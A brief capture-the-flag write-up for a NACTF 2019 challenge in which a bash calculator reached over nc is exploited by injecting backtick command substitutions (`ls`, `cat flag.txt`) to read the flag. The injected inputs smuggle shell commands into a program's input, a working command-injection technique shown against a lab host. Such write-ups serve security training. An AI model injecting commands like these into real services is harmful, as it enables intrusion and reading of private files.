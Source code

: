 #### Challenge:

John's written a handy calculator app - in bash! Too bad it's not that secure...

Connect at `nc shell.2019.nactf.com 31214`

---

#### Solution:

```bash
nc shell.2019.nactf.com 31214
`ls`
`cat flag.txt`
```

---

<details><summary>FLAG:</summary>

```
nactf{3v4l_1s_3v1l_dCf80yOo
```

</details>
